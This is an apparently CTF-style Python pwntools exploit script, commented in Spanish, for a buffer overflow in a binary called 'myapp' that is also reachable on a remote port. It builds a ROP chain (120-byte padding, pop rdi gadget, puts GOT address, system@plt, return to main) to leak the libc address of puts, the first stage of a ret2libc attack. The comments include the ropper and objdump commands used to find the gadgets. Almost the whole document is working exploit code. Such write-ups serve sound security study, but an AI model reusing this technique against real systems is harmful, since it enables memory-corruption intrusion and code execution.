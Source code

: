 > El exploit se encuentra explicado a través de comentarios además detecar

```python
#!/usr/bin/env python3

# Exploit BOF vía: Leak de libc

from pwn import *


# Correr el binario myapp en una nueva pestaña de tmux usando gdb 
context(terminal=['tmux', 'new-window'])
p = gdb.debug("./myapp", "b *main") # Estableceremos el breakpoint donde queramos

# Conectarse al puerto 1337 donde se encuentra expuesto el binario myapp
# p = remote("10.10.10.147", 1337)

# Como el offset es de 120 introduciremos 120 A's para provocar el BOF y así poder apuntar a la direcciones de memoria que queramos.
junk = b"A"*120

# Buscaremos un Gadget que nos permita realizar un pop rdi. Un pop básicamente lo que hace es meter un valor en la dirección indicada, en este caso rdi.
# ❯ ropper -f myapp | grep "rdi"
# 0x000000000040120b: pop rdi; ret; 

pop_rdi = p64(0x40120b)

# Obtendremos la dirección de memoria que hace una llamada a la función system()
#❯ objdump -d myapp | grep "system"
#  40116e:  e8 cd fe ff ff          call   401040 <system@plt>

system_plt = p64(0x401040)

# Obtenemos la dirección de memoria que hace una llamada a la función main()
# ❯ objdump -d myapp | grep "main"
#   401094: ff 15 56 2f 00 00       call   *0x2f56(%rip)        # 403ff0 <__libc_start_main@GLIBC_2.2.5>
# 000000000040115f <main>:

main = p64(0x40115f)

# Obtendremos la dirección de memoria que muestra por pantalla el mensaje que nosostros escribimos, es decir la dirección de puts()
#❯ objdump -d myapp | grep "puts"
#  401030:  ff 25 e2 2f 00 00       jmp    *0x2fe2(%rip)        # 404018 <puts@GLIBC_2.2.5>

got_puts = p64(0x404018)

# Gracias a este payload lo que lograremos ejecutar es lo siguiente: "system(got_puts)" para que así nos muestre como error por pantalla la dirección de memoria de la instruccioón puts() y a partir de dicha dirección leakeada obtener la dirección de memoria de libc con la que ya podremos hacer lo que nos apetezca mediante operaciones con los offsets.
payload = junk + pop_rdi + got_puts + system_plt + main

print(p.recvline()) # Recibiremos la línea que se muestra al ejecutar el binario es decir el /usr/bin/uptime
p.sendline(payload) # Enviaremos el payload creado
leaked_puts = u64(p.recvline().strip()[7:-11].ljust(8, b"\x00")) # Guardaremos en una variable la dirección de puts tras formatearla con strip y ljust.

log.info("Leaked puts address: 0x%x" % leaked_puts) # Mostraremos por pantalla la dirección de puts.

```